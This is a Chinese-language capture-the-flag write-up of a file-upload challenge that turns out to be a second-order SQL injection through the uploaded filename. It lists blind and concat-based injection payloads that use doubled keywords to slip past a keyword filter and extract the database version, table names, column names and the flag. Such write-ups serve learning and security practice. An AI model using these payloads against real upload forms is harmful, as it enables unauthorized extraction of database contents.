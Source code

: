 看题目意思应该是一个上传题目。
测试一下，发现只能够上传jpg图片文件。
行吧，卡住了，找大佬去了。
然后说这是一个注入题。。。文件名的二次注入(这谁扛得住啊...)
先去默默地了解下二次注入...(sqliab)
二次注入的思路是先将脏数据存入到数据库中，再取出的过程中完成对Sql语句的污染。
。。。二次注入的大佬思路没看懂...这里使用了另一个大佬的盲注,通过insert注入回显。：

`1' & (( seleselectct count(table_name) frfromom information_schema.tables where table_schema=database())=1)& '1.jpg"` 

获取表的数量

`filename="1' & (sselectelect (seselectlect length(table_name) frofromm information_schema.tables where table_schema=database() limit 0,1)>8)& '1.jpg"`

获取表的长度

`filename="1' & (ascii(substr((selselectect table_name frfromom information_schema.tables where table_schema=database() limit 0,1) ,1,1)) > 100 )& '1.jpg"`

获取表的名称

的确是一个可行的方案，但是这个原题目应该有验证码的，所以盲注需要时间太长了。
再看大佬的大佬的注入方法：

`‘+concat((selselectect version()))+’.jpg` 

查看mysql 版本，返回 5.6

`‘+concat((selselectect length(database())))+’.jpg ` 

查看database长度 返回 10

`‘+concat((selselectect ascii(substr(database(),1,1))))+’.jpg`

查看Database名字 返回 119 以此繼續爆..


`‘+concat((selselectect ascii(substr((selselectect table_name frfromom 
information_schema.tables where table_schema=database() limit 
0,1),1,1))))+’.jpg` 

爆第一个表名 返回 102 以此繼續爆..到第5位

`‘+concat((selselectect ascii(substr((selselectect table_name frfromom 
information_schema.tables where table_schema=database() limit 
1,1),1,1))))+’.jpg` 

爆第二个表名 返回 104 以此繼續爆..到第18位

`‘+concat((selselectect ascii(substr((selselectect column_name frfromom information_schema.columns where table_name=’hello_flag_is_here’ limit 0,1),1,1))))+’.jpg`

爆列名字 返回 105 

以此繼續爆..到第10位

`‘+concat((selselectect ascii(substr((selselectect i_am_flag frfromom 
hello_flag_is_here LIMIT 0,1),1,1))))+’.jpg `
